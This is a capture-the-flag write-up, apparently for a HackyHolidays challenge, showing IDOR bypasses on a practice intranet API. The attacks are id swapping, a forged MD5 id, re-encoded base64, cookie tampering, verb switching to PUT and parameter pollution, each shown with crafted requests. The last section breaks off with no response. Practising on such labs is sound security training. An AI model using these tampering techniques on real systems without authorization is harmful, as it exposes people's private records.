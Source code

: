 The request use an `id` parameter, which strongly indicate of a potential Access Control issue (IDOR).
3) We proceed with our tests against each URL

### Name
**Explanation:**Simple IDOR, changing the `id` value to `id=1` will give us the first flag
```
Request URL
`https://intranet.hackyholidays.h1ctf.com/staff_info/api/name?id=1
Response
"flag_part_1":"flag{c****"
```
### Address
**Explanation:** Initial request used the `c81e728d9d4c2f636f067f89cc14862c` hash which can be decoded easily and it is the MD5 hash for value `2`. We proceed with creating the hash for value `1` which is `c4ca4238a0b923820dcc509a6f75849b`
```
Request URL
https://intranet.hackyholidays.h1ctf.com/staff_info/api/address?id=c4ca4238a0b923820dcc509a6f75849b
Response
"flag_part_2":"1**-0"
```
### Position
**Explanation:** The request uses a base64 encoded value which decodes to `{"user_id":2}`. By changing the value to `{"user_id":1}` and encoding to base64 we can get the next part of the flag
```
Request URL
https://intranet.hackyholidays.h1ctf.com/staff_info/api/position?id=eyJ1c2VyX2lkIjoxfQ==
Response
"flag_part_3":"***-4a"
```
### Image
**Explanation:** The image endpoint does not use a parameter, but it seems to pull the image based on the Cookie set which is `Cookie: id=2`. By changing the value to `Cookie: id=1` we can get the next part of the flag
```http
GET /staff_info/api/image HTTP/1.1
Host: intranet.hackyholidays.h1ctf.com
Cookie: id=1

Response
"flag_part_4":"5c-****-**8"
```
### Salary
**Explanation:** In this case trying to swap the `id` value would return a message that we are not authorized to access that value `"error":"You do not have access to this resource`. It was possible though to do so by change the request verb to `PUT`
```http
PUT /staff_info/api/salary?id=1 HTTP/1.1
Host: intranet.hackyholidays.h1ctf.com

Response
"flag_part_5":"f****"
```
### Dob
**Explanation:** Similar as above chaning the `id` value would return a response for not having access to that resource. We idenfitied that a parameter pollution was possible
```http
GET /staff_info/api/dob?id=1&id=2 HTTP/1.1
Host: intranet.hackyholidays.h1ctf.com

Response
```